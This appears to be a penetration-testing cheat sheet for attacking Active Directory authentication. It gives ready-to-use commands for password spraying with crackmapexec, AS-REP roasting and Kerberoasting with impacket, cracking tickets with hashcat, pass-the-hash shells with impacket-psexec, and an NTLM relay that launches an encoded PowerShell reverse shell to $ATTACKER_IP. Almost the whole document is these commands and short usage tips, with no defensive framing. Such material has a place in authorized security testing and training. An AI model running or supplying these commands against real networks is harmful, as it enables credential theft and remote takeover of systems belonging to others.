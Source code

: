 # Attacking Authentication

## Password spray


Password spray attack with crackmapexec.
Note that crackmapexec doesn't look at the policy for locking users

```
crackmapexec smb $RHOST -u ${USERS_FILE} -p '${PASSWORD}' -d ${DOMAIN} --continue-on-success
```
Available protocols are: `ssh,mssql,winrm,smb,ldap,rdp,ftp`.

## Impacket

### AS-REP roasting

```
impacket-GetNPUsers -dc-ip ${DC_IP} -request -outputfile asrep-result.txt ${DOMAIN}/${OWNED_USER}
```

### Kerberoasting

This is good for high-privilege service accounts.
check for SPN accounts:
```
impacket-GetUserSPNs -dc-ip ${DC_IP} ${DOMAIN}/${DOMAIN_USER}:${DOMAIN_USER_PASSWORD} 

```
Now, we can request the TGS for the found SPN:

```
impacket-GetUserSPNs -dc-ip ${DC_IP} ${DOMAIN}/${DOMAIN_USER}:${DOMAIN_USER_PW} -request-user ${SPN_ACCOUNT} -outputfile tgs.txt 
```
Note the `$SPN_ACCOUNT` is the account Name, not the ServicePrincipalName.


Now, you can crack the password in the tgs file:

```
hashcat -a 0 -m 13100 tgs.txt /usr/share/wordlists/rockyou.txt
```

### Pass Admin hash psexec

Assuming you've found an NTLM admin hash, you might be able to get a reverse shell onto another machine with `impacket-psexec`:

```
impacket-psexec -hashes 00000000000000000000000000000000:${NTLM_HASH} Administrator@$RHOST
```
Format is `${LM_HASH}:${NT_HASH}` - when using the NTLM hash, just put `32 * 0` in the `LM_HASH` section.

a similar command is `impacket-wmiexec`, which gets us a shell as Administrator, rather than the SYSTEM.


### Relay hash with impacket-ntlmrelayx

You can relay SMB requests between SRV1 and SRV2 by doing the following:

* Setup an nc listener on kali: `nc -nvlp 6666`.
* From kali: `sudo impacket-ntlmrelayx --no-http-server -smb2support -t ${SRV2} -c "powershell -enc ${ENCODED_REV_SHELL}` (`ENCODED_REV_SHELL` points to `$ATTACKER_IP` and port `6666`)
* From SRV1 do `dir \\$ATTACKER_IP\thiswillgetdenied`.
The SMB request with the NTLMv2 Hash of the user on SRV1 will get relayed to SRV2.
Target system needs to have UAC remote restrictions disabled, and the user on SRV1 needs to have access to SRV2 for this to work.

